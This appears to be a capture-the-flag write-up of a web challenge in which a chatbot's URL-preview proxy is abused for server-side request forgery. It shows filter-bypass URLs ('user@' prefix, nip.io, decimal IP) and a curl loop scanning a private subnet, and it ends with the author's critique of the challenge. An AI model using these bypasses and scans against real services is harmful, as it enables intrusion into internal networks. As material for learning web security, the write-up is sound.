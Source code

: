 ChatBot
=======

**Category** : Web  
**Score** : 100 points  
**Solved** : 129 times  

---

>EvilGouv a récemment ouvert un service de chat-bot, vous savez ces trucs que personne n'aime. Bon en plus d'être particulièrement nul, il doit forcément y avoir une faille. Trouvez un moyen d'accéder à l'intranet !
>
>Lien : https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4
>
>Indice : Réseau local
>
>Le flag est de la forme : DGSESIEE{x} avec x un hash

---

![chatbot.png](chatbot.png)

The chatbot doesn't seem to do much, but the last reply has a Qwantz embed thinger inside. 

This embed data is retrieved through a call to `/proxy?url=https://www.qwantz.com`, which is triggered whenever a URL is parsed in a chat message.

This also happens for user-submitted messages:

```js
function send(mess) {
    var message = urlify(mess);
    var urls = mess.match(urlRegex);
    if(message.length <= 0){
        return;
    }
    //If URL
    if (urls && urls.length > 0) {
        var url = window.location.href + "proxy?url=" + urls[0];
        fetch(url)
            .then(function (res) {
                console.log(res);
                res.json()
                    .then(function (data) {
                        if(data.err){
                            addMessageUser(message,null);
                            askBot(mess);
                        }
                        else{
                            addMessageUser(message,data);
                            askBot(mess);
                        }
                    }).catch(function (err) {
                        addMessageUser(message,null);
                        askBot(mess);
                    });
            });
    } else {
        addMessageUser(message,null);
        askBot(mess);
    }
}
```

The goal being to get access to the intranet, we want to try hijacking the proxy to make it dump out internal urls.

Following the given clue in the description, we try `/proxy?url=http://192.168.0.1`, but it instantly returns Forbidden.  
Trying `/proxy?url=http://192.168.1.1` also returns Forbidden, and so does any attempt to access an ip like `192.168.x.y`.  
Since something specifically blocks accessing this ip range, there's definitely something to be found there.

To bypass the check, we try `/proxy?url=http://user@192.168.0.1` which returns 'Not found' instead, so either we succeeded to bypass the check, or the proxy just refused to parse our url correctly.  
The same trick with 192.168.1.1, `/proxy?url=http://user@192.168.1.1`, however, stalls for a very long time before giving up with a 504 gateway time-out - and so does any attempt to access an ip like `192.168.x.y` with x >= 1.

Putting all of this together, this looks like we have successfully bypassed the ip check, and that there is something specifically in the `192.168.0.0/24` range.

At this point, against all sense of decency and good taste, there's nothing left to do but bruteforce.


```bash
└─[$] for i in {1..254}; do ip="192.168.0.$i"; echo $ip : $(curl "https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4/proxy?url=http://user@$ip" 2>-); done; done
192.168.0.1 : Not Found
192.168.0.2 : Not Found
192.168.0.3 : Not Found
192.168.0.4 : Not Found
....

192.168.0.68 : Not Found
192.168.0.69 : Not Found
192.168.0.70 : {"contents":"<!DOCTYPE html>
<html>

<head>
 <meta charset=\"utf-8\">
 <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">
 <meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">
 <link href=\"/35e334a1ef338faf064da9eb5f861d3c/fontawesome/css/all.min.css\" rel=\"stylesheet\">
 <link href=\"/35e334a1ef338faf064da9eb5f861d3c/bootstrap/css/bootstrap.min.css\" rel=\"stylesheet\">
 <link href=\"/35e334a1ef338faf064da9eb5f861d3c/css/style_index.css\" rel=\"stylesheet\">
 <link rel=\"icon\" href=\"/35e334a1ef338faf064da9eb5f861d3c/img/favicon.ico\" />
 <title>Evil Gouv intranet</title>
</head>

<body>
 <div>
 <h1>FLAG DGSESIEE{2cf1655ac88a52d3fe96cb60c371a838}</h1>
</div>
</body>
<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/jquery-3.5.1.min.js\"></script>
<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/popper.min.js\"></script>
<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/bootstrap.min.js\"></script>

</html>","title":"Evil Gouv intranet","icon":"Null"}
```

This gives us the flag, `DGSESIEE{2cf1655ac88a52d3fe96cb60c371a838}`.


---

#### process

Ugh.

So many things wrong with this challenge. 

First of all, it started out broken - the proxy was just erroring out, revealing a regex filtering out https://www.qwantz.com and the 192.168.x.x ips, which *looked* like it was intentional and exploitable, but it was just broken. On the one hand, I lost a lot of time here for no good reason, but on the other hand, this gave a clue for the actual challenge (that the 192.168.x.x ip range was going to be relevant). Still, very frustrating.

Even after that was fixed, the challenge is just full of unpleasant things. The most misleading thing is that it's actually a fully working reverse proxy - you can pass it any valid http/https url and it will fetch it and display the contents. That's kind of scary in and of itself (I hope nobody used it for evil purposes), but also it's kind of a red herring. 

Since you can access any publically routable domain, one cool idea would be to try to access a public domain which resolves to a 192.168.x.x ip ; either by changing the DNS records of a domain you control, or by using [nip.io](https://nip.io/) ; and this definitely works, for example, `/proxy?url=http://192.168.0.70.nip.io/` successfully bypasses the filter and returns the flag page. The problem being of course, that you already need to know the correct ip for it to work, so even if you get that idea, you most likely won't get anything out of it. 

Even if you limit yourself to SSRFs targetting only local IPs, there's still an insane number of possible ways something like this might be exploited:

 * What if you reflect the proxy on its own pages to get source code or directory listings? 
 * What if you have to find one of the million variants of using a nul byte or another weird char at the correct place in the url to bork the parser (better have an automated fuzzer ready)
 * What if you use a different ip format ? (This one does work: `/proxy?url=http://3232235590`, of course only if you already know the ip)
 * What if you have to figure out a special protocol that the proxy will let you use, besides http and https ?
 * ...and so on.

There's just too many possibilitiies here, and very little feedback from the challenge itself unless you already know where you're going and you're paying very close attention (as you can do in a write-up, but is tremendously harder when you don't even know what you're looking for).

Even the fact that https:// is used for the default qwantz.com embed is frustrating, because it just doesn't work for the internal ips - you could have tried the correct thing in many different ways and have it fail just because of forgetting to try with http (and double the number of things to try).

Finally, and completely bafflingly, `proxy?url=http://intranet` just directly works. Go figure.

The worst and most terrible offender here is the fact that you're expected to bruteforce. I haven't done hacking challenges in a very long time, but it seems to me that one of the core implicit rules is still that you're not supposed to do things that would overload the server and degrade the experience for other users. 

Granted, here it's only 255 ips to bruteforce (assuming you didn't miss any clue - some people asked if it was intended to bruteforce the whole /16 subnet), and you can always ratelimit yourself, but it's still very icky territory. 

I suppose this challenge gets full grade for realism - IRL exploits are often fuzzy and bruteforcey like this - but as a puzzle, it makes for a very frustrating experience.
